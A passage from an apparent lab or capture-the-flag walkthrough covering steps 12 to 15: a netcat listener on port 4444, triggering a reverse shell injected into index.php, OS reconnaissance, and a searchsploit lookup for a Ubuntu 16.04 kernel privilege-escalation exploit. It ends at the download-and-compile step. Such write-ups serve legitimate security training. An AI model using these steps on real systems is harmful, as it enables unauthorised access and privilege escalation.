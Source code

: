 Save the edited `index.php`.

---

## Step 12 — Start a netcat listener on your machine

```
# Start a listener on attacker machine
nc -lnvp 4444
```

---

## Step 13 — Trigger the reverse shell

Visit the site (index) to execute the injected code:

```
http://192.168.0.106/
```

You should receive a reverse shell on your netcat listener. Now you are a web user (usually `www-data` or similar).

---

## Step 14 — Privilege escalation reconnaissance

Move to `/tmp` and run enumeration (linpeas) or manual checks.

```
# Check target OS release
lsb_release -a
```

**Result:**

```
Ubuntu 16.04
```

Search for kernel/local exploits for Ubuntu 16.04:

```
searchsploit "Ubuntu 16.04"
```

**Result (example):**

```
Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF_PROG_LOAD) Privilege Escalation | linux/local/39772.txt
```

---

## Step 15 — Download & compile the local exploit on the target
